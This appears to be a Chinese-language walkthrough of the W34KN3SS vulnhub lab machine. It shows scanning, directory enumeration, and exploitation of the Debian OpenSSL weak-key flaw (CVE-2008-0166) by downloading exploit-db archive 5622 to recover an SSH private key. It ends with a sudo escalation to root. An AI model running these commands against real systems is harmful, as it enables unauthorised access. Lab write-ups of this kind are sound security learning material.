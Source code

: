 VMware双击打开，nat模式运行即可！

--------------------------------------------
--------------------------------------------
1、nmap 192.168.253.0/24 -sP

Nmap scan report for localhost (192.168.253.129)
Host is up (0.0018s latency).


--------------------------------------------
--------------------------------------------
2、nmap 192.168.253.129 -p- -A


22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))


--------------------------------------------
--------------------------------------------
3、web信息收集

dirb 来枚举 Web 服务器上的目录：
dirb http://192.168.253.129

http://192.168.253.129/test/
http://192.168.253.129/uploads/



访问：
http://192.168.253.129/test/

发现存在很多key现象！
在访问https页面的证书内发现新的域名：weakness.jth
添加到hosts中！

浏览器上浏览weakness.jth，结果给出了一个有用的用户信息：n30


--------------------------------------------
--------------------------------------------
4、域名信息枚举

dirb http://weakness.jth
发现：
http://weakness.jth/private/
发现两个文件：

1）mykey.pub
2）notes.txt信息提示：
this key was generated by openssl 0.9.8c-1
发现的公钥是由它生成的！

第一个文件（mykey.pub）是一个公钥，但我们需要找到私钥才能使用它来使用 SSH 服务登录服务器。所以，我检查了第二个文件。它包含一个提示。提示告诉我使用 openssl 版本 0.9.8c-1 生成的密钥。

可预测 PRNG 漏洞（CVE-2008-0166）有关，基于 Debian 的操作系统上的 OpenSSL 0.9.8c-1 到 0.9.8g-9 之前的版本使用随机数生成器生成可预测的数字，这使得远程攻击者更容易对加密密钥进行暴力猜测攻击


--------------------------------------------
--------------------------------------------
5、OpenSSL漏洞利用

搜索：
searchsploit 0.9.8c-1
发现：linux/remote/5622.txt

searchsploit -m 5622

proxychains wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

tar xjvf 5622.tar.bz2


cat mykey.pub
grep -r -l "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster"
mykey.pub
rsa/2048/4161de56829de2fe64b9055711f531c1-2537.pub

使用私钥使用 SSH 服务登录到我的目标：
cd /rsa/2048
ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@192.168.253.129

--------------------------------------------
--------------------------------------------
6、内部信息枚举

ls -la 发现：
.sudo_as_admin_successful
意味着该用户可以使用 root 权限执行 sudo，但是需要密码登录，不知道密码！


file code
code: python 2.7 byte-compiled
python 2.7 字节编译的文件！

下载：
https://github.com/rocky/python-uncompyle6
pip install uncompyle6

或者：
pip install decompyle3


mv code code.pyc
dMASDNB!!#B!#!#33


--------------------------------------------
--------------------------------------------
6、提权

n30@W34KN3SS:~$ sudo -l
[sudo] password for n30: 
Matching Defaults entries for n30 on W34KN3SS:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User n30 may run the following commands on W34KN3SS:
    (ALL : ALL) ALL

sudo su
root@W34KN3SS:/home/n30# id
uid=0(root) gid=0(root) groups=0(root)












































